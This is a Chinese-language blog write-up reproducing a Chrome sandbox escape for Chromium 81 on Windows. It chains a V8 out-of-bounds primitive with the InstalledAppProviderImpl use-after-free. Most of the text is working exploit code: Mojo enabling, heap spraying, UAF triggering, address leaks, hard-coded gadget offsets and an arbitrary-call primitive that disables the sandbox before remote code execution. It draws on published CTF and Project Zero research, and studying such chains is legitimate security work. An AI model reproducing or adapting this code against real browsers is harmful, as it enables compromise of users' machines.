

## 前言

感谢大佬们的无私分享：

Mojo基础：https://keyou.github.io/blog/2020/01/03/Chromium-Mojo&IPC/

p0 sandbox escape：https://googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html

plaidctf2020mojo：https://eternalsakura13.com/2020/09/20/mojo/#more

issue1062091漏洞利用的详细分析: https://blog.theori.io/research/escaping-chrome-sandbox/

SCTF2020 EasyMojo：https://github.com/SycloverSecurity/SCTF2020/tree/master/Pwn/EasyMojo

D^3CTF EasyChromeFullChain：https://mp.weixin.qq.com/s/Gfo3GAoSyK50jFqOKCHKVA

以下漏洞利用都是基于这些文章的基础，再加上自己的一点点理解，就不多说漏洞原理了（俺讲不清楚，，，），以上文章中就有详细的分析

## 调试环境

window 10 x64 2004

chromium 81.0.4044.0：https://chromium.cypress.io/win64/beta/81.0.4044.69 （下载地址）

## 漏洞利用

### 触发UAF

该漏洞是因为InstalledAppProviderImpl里保存一个了render_frame_host_的原始指针，但是并没有通过任何方法来将InstalledAppProviderImpl和RenderFrameHost的生命周期绑定，所以我们可以free frame来释放掉对应的render_frame_host，而我们此时只要保持住InstalledAppProviderImpl的ptr，就可以通过FilterInstalledApps来触发UAF：

```cpp
void InstalledAppProviderImpl::FilterInstalledApps(
    std::vector<blink::mojom::RelatedApplicationPtr> related_apps,
    const GURL& manifest_url,
    FilterInstalledAppsCallback callback) {
  if (render_frame_host_->GetProcess()->GetBrowserContext()->IsOffTheRecord()) {		// UAF
    std::move(callback).Run(std::vector<blink::mojom::RelatedApplicationPtr>());
    return;
  }
  ...
}
```

在查看了[issue1062091漏洞利用的详细分析](https://blog.theori.io/research/escaping-chrome-sandbox/)和[D^3CTF EasyChromeFullChain WP](https://mp.weixin.qq.com/s/Gfo3GAoSyK50jFqOKCHKVA)两篇文章之后，我们可以先创建一个sub frame中绑定一个InstalledAppProvider接口，将其对象传递给main frame，在释放sub frame，在main frame中使用sub fream传入的InstalledAppProvider接口对象来调用其FilterInstalledApps方法，就能触发UAF：

```javascript
// child.html
if(typeof(Mojo) !== "undefined"){
	print("[ Mojo interface enabled ]");
	pipe = Mojo.createMessagePipe();
	Mojo.bindInterface(blink.mojom.InstalledAppProvider.name,
		pipe.handle1, "context", true);
	installAppProviderPtr = new blink.mojom.InstalledAppProviderPtr(pipe.handle0);
	installAppProviderPtr.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
}else{
	print("[*] start enable Mojo.");
	let oob = new GetOOB();					// use v8 vuln to get oob read and write ability
	enable_mojo(oob);
	window.location.reload();
}

// in main frame
function getFreedPtr(){
    return new Promise((resolve)=>{
        let frame = allocateRFH("child.html");
        frame.onload = _ => {
        let installAppProviderPtr = frame.contentWindow.installAppProviderPtr;
        deallocateRFH(frame);
        resolve(installAppProviderPtr);
        }
    });
}

// trigger UAF
async function triggerUAF(ptr){
	print("\t[-] trying trigger UAF");
	ptr.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
	print("\t[-] UAF triggered");
}
```

### enable mojo

从上面触发UAF的过程看到，我们需要在一个sub frame中开启Mojo接口，根据p0的文章中提到的为render frame开启Mojo接口的函数：

```cpp
void RenderFrameImpl::DidCreateScriptContext(v8::Local<v8::Context> context,
                                             int world_id) {
  if ((enabled_bindings_ & BINDINGS_POLICY_MOJO_WEB_UI) && IsMainFrame() &&
      world_id == ISOLATED_WORLD_ID_GLOBAL) {
    // We only allow these bindings to be installed when creating the main
    // world context of the main frame.
    blink::WebContextFeatures::EnableMojoJS(context, true);
  }

  for (auto& observer : observers_)
    observer.DidCreateScriptContext(context, world_id);
}
```

我们只需要满足if里的条件即可给该render frame开启Mojo接口，IsMainFrame函数也是通过RenderFrameImpl对象里的一个成员来判断的

所以enable mojo的代码如下：

```javascript
function enable_mojo(oob){
    print("[ enable mojo ]")

    const kWindowWrapperTypeInfoOffset  = 0x7573e88n;
    const kGFrameMapOffset              = 0x7627888n;
    const kEnabledBindingsOffset        = 0x5c8n;
    const kEnabledMojoBindingOffset     = 0x5ccn;
    const kIsMainFrameOffset            = 0x88n;

    let window_ptr = oob.objToPtr(window);
    print("[*] window_ptr: 0x"+window_ptr.toString(16));

    let v8_window_wrapper_type_info_ptr = oob.getUint64(BigInt(window_ptr+0x10));
    let chrome_dll_address = v8_window_wrapper_type_info_ptr - kWindowWrapperTypeInfoOffset;
    print("[*] chrome.dll address: 0x"+chrome_dll_address.toString(16));
    print("[*] v8 window warpper type info ptr: 0x"+v8_window_wrapper_type_info_ptr.toString(16));

    let g_frame_map_ptr = chrome_dll_address + kGFrameMapOffset;
    print("[*] g_frame_map_ptr: 0x"+g_frame_map_ptr.toString(16))

    if (oob.getUint64(g_frame_map_ptr) != g_frame_map_ptr + 0x8n) {
        print('[!] error finding g_frame_map');
        return;
    }
    
    let root_ptr = oob.getUint64(g_frame_map_ptr+0x10n);
    print('[*] root_ptr: 0x' + root_ptr.toString(16));

    let allNode = [];
    let queue = [];

    queue.push(root_ptr);
    
	// find all frame
    while(queue.length != 0){
        let rootNode = queue.pop();
        let leftNode = oob.getUint64(rootNode);
        let rightNode = oob.getUint64(rootNode+8n);
        if(leftNode != 0n)
            queue.push(leftNode);
        if(rightNode != 0n)
            queue.push(rightNode);
        allNode.push(rootNode);
    }

    // enable all
    for(let i = 0;i < allNode.length;i++){
        // content::RenderFrameImpl
        let ptr = allNode[i];
        let render_frame_ptr = oob.getUint64(ptr + 0x28n);
        print('[*] render_frame_ptr: 0x' + render_frame_ptr.toString(16));
        {
            let is_main_frame = oob.getUint8(render_frame_ptr + kIsMainFrameOffset);
            print('[*] is main frame: ' + is_main_frame.toString(16));
            if(is_main_frame == 0){
                print("[!] not in main frame");
                oob.setUint8(render_frame_ptr + kIsMainFrameOffset, 1);
            }
        }
        let enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
        print('[*] enabled_bindings:  0b' + enabled_bindings.toString(2));
        oob.setUint32(render_frame_ptr + kEnabledBindingsOffset, 2);
        oob.setUint32(render_frame_ptr + kEnabledMojoBindingOffset, 1);
        enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
        print('[*] new enabled_bindings:  0b' + enabled_bindings.toString(2));
    }

    print('  [*] reloading');
    // window.location.reload();
}

```

其中寻找RenderFrameImpl对象在SCTF和p0的文章中都有提到，就不多赘述了

### escape Sandbox

这里都是参考的[issue1062091漏洞利用的详细分析](https://blog.theori.io/research/escaping-chrome-sandbox/)和[SCTF2020 EasyMojo](https://github.com/SycloverSecurity/SCTF2020/tree/master/Pwn/EasyMojo)

用于堆喷的那部分代码已经被大佬们封装成一个通用的函数，我们拿来用就好了：

```javascript
function getAllocationConstructor() {
    /////////// 已经被大佬们封装成一个类了
}
```

escape sandbox的步骤为：

- 泄露出一个堆地址
- 根据第一步中泄露的堆地址泄露出this（RenderFrameImpl）指针（也就是我们可控的堆地址）
- 通过找callback对象来任意调用函数
- 泄露`current_process_commandline_`地址
- 调用`SetCommandLineFlagsForSandboxType`来将`--no-sandbox`添加到`current_process_commandline_`中
- 再次使用v8的漏洞来RCE（页面要不同源）

以下对各个步骤进行一些说明（其实在SCTF2020 EasyMojo的wp中都已经提到了），我这里写下我找的几个gadget

#### 泄露堆地址

首先查看UAF出的cpp代码：

```cpp
void InstalledAppProviderImpl::FilterInstalledApps(
    std::vector<blink::mojom::RelatedApplicationPtr> related_apps,
    const GURL& manifest_url,
    FilterInstalledAppsCallback callback) {
  if (render_frame_host_->GetProcess()->GetBrowserContext()->IsOffTheRecord()) {		// UAF
    std::move(callback).Run(std::vector<blink::mojom::RelatedApplicationPtr>());
    return;
  }
  ...
}
```

为了避免crash，我们需要让`render_frame_host_->GetProcess()->GetBrowserContext()->IsOffTheRecord()`能正常返回，查看其汇编代码：

```cpp
.text:0000000180D32B98 ; public: virtual void content::InstalledAppProviderImpl::FilterInstalledApps(class std::vector<class mojo::InlinedStructPtr<class blink::mojom::RelatedApplication>, class std::allocator<class mojo::InlinedStructPtr<class blink::mojom::RelatedApplication>>>, class GURL const &, class base::OnceCallback<void (class std::vector<class mojo::InlinedStructPtr<class blink::mojom::RelatedApplication>, class std::allocator<class mojo::InlinedStructPtr<class blink::mojom::RelatedApplication>>>)>)
.text:0000000180D32B98 ?FilterInstalledApps@InstalledAppProviderImpl@content@@UEAAXV?$vector@V?$InlinedStructPtr@VRelatedApplication@mojom@blink@@@mojo@@V?$allocator@V?$InlinedStructPtr@VRelatedApplication@mojom@blink@@@mojo@@@__1@std@@@__1@std@@AEBVGURL@@V?$OnceCallback@$$A6AXV?$vector@V?$InlinedStructPtr@VRelatedApplication@mojom@blink@@@mojo@@V?$allocator@V?$InlinedStructPtr@VRelatedApplication@mojom@blink@@@mojo@@@__1@std@@@__1@std@@@Z@base@@@Z proc near
.text:0000000180D32B98                                         ; DATA XREF: .rdata:0000000186618EA8↓o
.text:0000000180D32B98
.text:0000000180D32B98 var_88          = xmmword ptr -88h
.text:0000000180D32B98 anonymous_0     = qword ptr -78h
.text:0000000180D32B98 var_68          = xmmword ptr -68h
.text:0000000180D32B98 anonymous_1     = qword ptr -58h
.text:0000000180D32B98 var_50          = qword ptr -50h
.text:0000000180D32B98 var_48          = xmmword ptr -48h
.text:0000000180D32B98 anonymous_2     = qword ptr -38h
.text:0000000180D32B98 var_30          = base::internal::CallbackBase ptr -30h
.text:0000000180D32B98 var_28          = qword ptr -28h
.text:0000000180D32B98
.text:0000000180D32B98                 push    r14
.text:0000000180D32B9A                 push    rsi
.text:0000000180D32B9B                 push    rdi
.text:0000000180D32B9C                 push    rbx
.text:0000000180D32B9D                 sub     rsp, 88h
.text:0000000180D32BA4                 mov     rsi, r9
.text:0000000180D32BA7                 mov     r14, rdx
.text:0000000180D32BAA                 mov     rbx, rcx
.text:0000000180D32BAD                 mov     rax, cs:__security_cookie
.text:0000000180D32BB4                 xor     rax, rsp
.text:0000000180D32BB7                 mov     [rsp+0A8h+var_28], rax
.text:0000000180D32BBF                 mov     rcx, [rcx+8]
.text:0000000180D32BC3                 mov     rax, [rcx]				// 这里的rcx指向的就是我们可控的地方
.text:0000000180D32BC6                 call    qword ptr [rax+48h]
.text:0000000180D32BC9                 mov     rdx, [rax]
.text:0000000180D32BCC                 mov     rcx, rax
.text:0000000180D32BCF                 call    qword ptr [rdx+0D0h]
.text:0000000180D32BD5                 mov     rdx, [rax]
.text:0000000180D32BD8                 mov     rcx, rax
.text:0000000180D32BDB                 call    qword ptr [rdx+18h]
    // 省略
```

我的做法是让`render_frame_host_->GetProcess()->GetBrowserContext()`返回我们可控区域的地址，最后的`IsOffTheRecord`再用于泄露堆地址，我们需要找到一个这样的函数：

```cpp
SomeType* SomeClass::SomeMethod() {
  return &class_member_;
}
```

这种函数的名字一般叫getxxx之类的，再ida中一通找（用CodeQL应该才是正解）后，找到一个合适的：

```cpp
.text:0000000180002180 ; public: class std::basic_string<char, struct std::char_traits<char>, class std::allocator<char>> const & syncer::LoopbackServerEntity::GetId(void)const
.text:0000000180002180 ?GetId@LoopbackServerEntity@syncer@@QEBAAEBV?$basic_string@DU?$char_traits@D@__1@std@@V?$allocator@D@23@@__1@std@@XZ proc near
.text:0000000180002180                                         ; CODE XREF: mojo::StructTraits<proxy_resolver::mojom::ProxyServerDataView,net::ProxyServer>::host(net::ProxyServer const &)+1C↓p
.text:0000000180002180                                         ; mojo::StructTraits<proxy_resolver::mojom::ProxyServerDataView,net::ProxyServer>::port(net::ProxyServer const &):loc_1805BC96B↓p ...
.text:0000000180002180                 lea     rax, [rcx+8]
.text:0000000180002184                 retn
.text:0000000180002184 ?GetId@LoopbackServerEntity@syncer@@QEBAAEBV?$basic_string@DU?$char_traits@D@__1@std@@V?$allocator@D@23@@__1@std@@XZ endp
.text:0000000180002184
```

这个函数会把this+8的地址返回回来，我们只要调用这个函数两次，对应`render_frame_host_->GetProcess()->GetBrowserContext()`，注意的是找到的函数要是再虚表中的函数，也就是ida中的.rdata段会有指针指向该函数；为了泄露堆地址，我们需要找到一个这样的虚函数：

```cpp
void VirtualFunction() override() {
    some_member_ = new SomeClass();
}
```

这里选择使用的虚函数是`content::WebContentsImpl::GetWakeLockContext`：

```cpp
struct device::mojom::WakeLockContext *__fastcall content::WebContentsImpl::GetWakeLockContext(content::WebContentsImpl *this)
{
  __int64 v1; // rdi
  char *v3; // rdi
  content::WakeLockContextHost *someobj; // rbx

  v1 = *((_QWORD *)this + 0xCA);		
  if ( !v1 )
  {
    v3 = (char *)this + 0x650;
    someobj = (content::WakeLockContextHost *)operator new(0x40ui64);		// 分配一个新对象
    content::WakeLockContextHost::WakeLockContextHost(someobj, this);		
    std::unique_ptr<content::WakeLockContextHost>::reset(v3, someobj);		// 将对象的地址写入this+offset的地方
    v1 = *((_QWORD *)this + 202);
  }
  if ( !*(_DWORD *)(v1 + 32) && !*(_QWORD *)(v1 + 24) )
    return 0i64;
  mojo::internal::InterfacePtrState<device::mojom::WakeLockContext>::ConfigureProxyIfNecessary(v1 + 16);
  return *(struct device::mojom::WakeLockContext **)(v1 + 56);
}
```

而且`content::WakeLockContextHost::WakeLockContextHost(someobj, this);`，还会将this的地址写入到someobj地址偏移+8处，为我们后面泄露出this的地址给了很大的方便

相对应的js代码：

```javascript
            const kWakeLockContextOffset = 0x650;
			const kGetFieldAddrVptr = 0x71A90E0n  + ChromeDllBase;        // syncer::LoopbackServerEntity::GetId
			const kGetWakeLockContextVptr = 0x663DCD8n + ChromeDllBase;      // content::WebContentsImpl::GetWakeLockContext
			const kFirstCallVtableOffset = 0x48;
    		const kSecondCallVtableOffset = 0xd0;
    		const kThirdCallVtableOffset = 0x18;
			let data = new ArrayBuffer(kRenderFrameHostSize);
            let view = new DataView(data);

            /* copy the allocation data to the end */
            let allocView = new DataView(allocData);
            let dataOffset = kRenderFrameHostSize - allocData.byteLength;
            for (var i = 0; i < allocData.byteLength; i++) {
                view.setUint8(dataOffset + i, allocView.getUint8(i));
            }

            offset = 0;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kFirstCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kSecondCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetWakeLockContextVptr - BigInt(kThirdCallVtableOffset), true);
            // view.setBigUint64(offset + kThirdCallVtableOffset, kLeakGadget, true); // setup leak gadget
            offset += kWakeLockContextOffset;

            let provider_ptr = await getFreedPtr();
            let heap = await spray(data);
            await triggerUAF(provider_ptr);
            results = await Promise.all(heap.map((a) => a.readQword(offset)));
            let allocation;
            let wakeLockContextAddr;
            for (var i = 0; i < results.length; i++) {
                if (results[i] != 0) {
                    wakeLockContextAddr = results[i];
                    allocation = heap[i];
                    print("\t[*] overlapped allocation index: " + i);
                }
            }
            if (wakeLockContextAddr == undefined) {
                print("\t[!] stage1 failed.. retrying");
                continue;
            }

            print("\t[*] stage1 success: " + wakeLockContextAddr.toString(16));
```

#### 泄露this

在上一步中，我们已经拿到了一个堆地址，而且知道该堆地址+8偏移处有我们的this指针，我们只要想办法利用它泄露处this指针就好。

泄露`this`的虚函数的形式如下：

```cpp
void VirtualFunction() override {
    some_member_ = other_member_.some_attr;
}
```

这里选择的虚函数是`DictionaryIterator::Start`：

```cpp
__int64 __fastcall anonymous_namespace_::DictionaryIterator::Start(__int64 this)
{
  __int64 v1; // rax
  __int64 result; // rax

  v1 = *(_QWORD *)(this + 32);			// 取得堆地址
  if ( !*(_DWORD *)(v1 + 24) )
  {
    __debugbreak();
    BUG();
  }
  result = *(_QWORD *)(v1 + 40);
  *(_QWORD *)(this + 24) = result;		// 将堆地址0x40偏移处的地址写入到this中
  return result;
}
```

对应的js代码：

```javascript
			const kGetFieldVptr = 0x69101D8n + ChromeDllBase;               // DictionaryIterator::Start	
			data = new ArrayBuffer(kRenderFrameHostSize);
            view = new DataView(data);
            offset = 0;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kFirstCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kSecondCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetFieldVptr - BigInt(kThirdCallVtableOffset), true);
            view.setBigUint64(offset + kFieldOffset, wakeLockContextAddr + BigInt(kWakeLockContextWebContentsOffset) - 0x28n, true);            // 0x28 for DictionaryIterator::Start
            
            provider_ptr = await getFreedPtr();
            let heap2 = await spray(data);
            await triggerUAF(provider_ptr);
            offset = 0x28;
            results = await Promise.all(heap2.map((a) => a.readQword(offset)));
            let bufLeak = undefined;
            for (var i = 0; i < results.length; i++) {
                if (results[i] != 0) {
                    bufLeak = results[i];
                }
            }
            if (bufLeak == undefined) {
                print("\t[!] stage2 failed.. retrying");
                continue;
            }
            print("leak this: " + bufLeak.toString(16));
```

至此我们就泄露了this地址，等于我们知道了我们可控区域的地址，这里的泄露建议多调试调试，一堆的虚函数call很容易搞乱

#### 寻找callback

我们需要找到一个能传递多个参数的回调函数：

```cpp
.text:0000000184B6210A ; void base::internal::Invoker<base::internal::BindState<void (gpu::SharedImageInterfaceInProcess::*)(gpu::CommandBufferTaskExecutor *,gpu::ImageFactory *,gpu::MemoryTracker *),base::internal::UnretainedWrapper<gpu::SharedImageInterfaceInProcess>,gpu::CommandBufferTaskExecutor *,gpu::ImageFactory *,gpu::MemoryTracker *>,void (void)>::RunOnce(void)
.text:0000000184B6210A ?RunOnce@?$Invoker@U?$BindState@P8SharedImageInterfaceInProcess@gpu@@EAAXPEAVCommandBufferTaskExecutor@2@PEAVImageFactory@2@PEAVMemoryTracker@2@@ZV?$UnretainedWrapper@VSharedImageInterfaceInProcess@gpu@@@internal@base@@PEAV32@PEAV42@PEAV52@@internal@base@@$$A6AXXZ@internal@base@@SAXPEAVBindStateBase@23@@Z proc near
.text:0000000184B6210A                                         ; DATA XREF: gpu::SharedImageInterfaceInProcess::SharedImageInterfaceInProcess(gpu::CommandBufferTaskExecutor *,gpu::SingleTaskSequence *,util::IdType<gpu::CommandBuffer,unsigned __int64,0>,gpu::MailboxManager *,gpu::ImageFactory *,gpu::MemoryTracker *,std::unique_ptr<gpu::InProcessCommandBuffer::SharedImageInterfaceHelper>)+B6↑o
.text:0000000184B6210A                 mov     r10, [rcx+20h]
.text:0000000184B6210E                 mov     rax, [rcx+28h]
.text:0000000184B62112                 mov     r9, [rcx+40h]
.text:0000000184B62116                 mov     r8, [rcx+38h]
.text:0000000184B6211A                 mov     rdx, [rcx+30h]
.text:0000000184B6211E                 mov     rcx, rax
.text:0000000184B62121                 jmp     r10
.text:0000000184B62121 ?RunOnce@?$Invoker@U?$BindState@P8SharedImageInterfaceInProcess@gpu@@EAAXPEAVCommandBufferTaskExecutor@2@PEAVImageFactory@2@PEAVMemoryTracker@2@@ZV?$UnretainedWrapper@VSharedImageInterfaceInProcess@gpu@@@internal@base@@PEAV32@PEAV42@PEAV52@@internal@base@@$$A6AXXZ@internal@base@@SAXPEAVBindStateBase@23@@Z endp
.text:0000000184B62121
```

这种函数在ida中还是有很多的，找一个用就好，为了能任意地址调用，我们还需要一个虚函数来调用该callback，找一个类似这种的：

```cpp
.text:0000000180E518C2 ; void __fastcall blink::FileSystemDispatcher::WriteListener::DidWrite(blink::FileSystemDispatcher::WriteListener *__hidden this, __int64, bool)
.text:0000000180E518C2 ?DidWrite@WriteListener@FileSystemDispatcher@blink@@UEAAX_J_N@Z proc near
.text:0000000180E518C2                                         ; DATA XREF: .rdata:00000001866309C8↓o
.text:0000000180E518C2                                         ; .rdata:0000000186630A68↓o ...
.text:0000000180E518C2                 mov     rcx, [rcx+10h]
.text:0000000180E518C6                 mov     rax, [rcx+8]
.text:0000000180E518CA                 jmp     rax
.text:0000000180E518CA ?DidWrite@WriteListener@FileSystemDispatcher@blink@@UEAAX_J_N@Z endp
```

封装一下：

```javascript
const kInvokeCallbackVptr = 0x66309C8n + ChromeDllBase;         // blink::FileSystemDispatcher::WriteListener::DidWrite
const kBindStatePtrOffset = 0x10;
/* Builds a base::OnceCallback and invokes it using the provided function and args */
    async function callFunction(functionAddr, arg0=0n, arg1=0n, arg2=0n, arg3=0n) {
        let k4ArgBindStateSize = 0x48;
        let bindState = new ArrayBuffer(k4ArgBindStateSize);
        let view = new DataView(bindState);
        view.setBigUint64(0, 1n, true); // refcount
        view.setBigUint64(8, kInvoker4Args, true); // polymorphic_invoke
        view.setBigUint64(0x10, kNopRet, true); // destructor
        view.setBigUint64(0x18, kNopRet, true); // query_cancellation_traits
        view.setBigUint64(0x20, functionAddr, true); // functor
        view.setBigUint64(0x28, arg0, true);
        view.setBigUint64(0x30, arg1, true);
        view.setBigUint64(0x38, arg2, true);
        view.setBigUint64(0x40, arg3, true);

        let [a, bindStateAddr] = await allocReadable(bindState);
        print("\t[*] allocated bindState at " + bindStateAddr.toString(16));

        let data = new ArrayBuffer(kRenderFrameHostSize);
        view = new DataView(data);
        offset = 0;
        view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kFirstCallVtableOffset), true);
        offset += kFieldAddrOffset;
        view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kSecondCallVtableOffset), true);
        offset += kFieldAddrOffset;
        view.setBigUint64(offset, kInvokeCallbackVptr - BigInt(kThirdCallVtableOffset), true);
        // view.setBigUint64(offset, 0xcafebabedeadn, true);
        view.setBigUint64(offset + kBindStatePtrOffset, bindStateAddr, true);

        provider_ptr = await getFreedPtr();
        await spray(data);
        await triggerUAF(provider_ptr);
    }
```

#### 泄露`current_process_commandline_`地址

这个我们只要用前面泄露的可控地址，来吧`current_process_commandline_`拷贝过去就好，可以使用这种函数：

```cpp
.text:00000001810ABBA0 ; void __fastcall extensions::SizeConstraints::set_minimum_size(extensions::SizeConstraints *__hidden this, const struct gfx::Size *)
.text:00000001810ABBA0 ?set_minimum_size@SizeConstraints@extensions@@QEAAXAEBVSize@gfx@@@Z proc near
.text:00000001810ABBA0                                         ; CODE XREF: viz::HitTestManager::SetHitTestAsyncQueriedDebugRegions(viz::FrameSinkId const &,std::vector<viz::FrameSinkId> const &)+1DB↓p
.text:00000001810ABBA0                                         ; std::vector<std::pair<viz::FrameSinkId,viz::HitTestManager::HitTestAsyncQueriedDebugRegion>>::emplace<viz::FrameSinkId const &,viz::HitTestManager::HitTestAsyncQueriedDebugRegion>(std::__wrap_iter<std::pair<viz::FrameSinkId,viz::HitTestManager::HitTestAsyncQueriedDebugRegion> const *>,viz::FrameSinkId const &,viz::HitTestManager::HitTestAsyncQueriedDebugRegion &&)+14E↓p ...
.text:00000001810ABBA0                 mov     rax, [rdx]
.text:00000001810ABBA3                 mov     [rcx], rax
.text:00000001810ABBA6                 retn
.text:00000001810ABBA6 ?set_minimum_size@SizeConstraints@extensions@@QEAAXAEBVSize@gfx@@@Z endp
.text:00000001810ABBA6
```

#### 调用`SetCommandLineFlagsForSandboxType`

最后我们只要使用我们封装好的callFunction调用`SetCommandLineFlagsForSandboxType`将`--no-sandbox`标志添加到全局变量`current_process_commandline_`中就好了，最后只需要再次使用V8的漏洞来进行RCE即可

这样的好处就是payload不依赖于具体的windows版本

## 后记

在网站下载的chromium虽然有提供idb文件，但是里面还是有很多结构和变量都是没有符号的，我的做法是自己编译了一个版本相近的带符号的chromium，用这个自己编译的来找对应的变量和查看结构偏移，再根据函数名和变量的交叉引用来确定最终的偏移，以下是打成功的效果：



PS：复现下来，感觉好像会了一点点，但是又感觉缺了好多Mojo的知识。。可能写payload不需要那么的精通背后的原理把。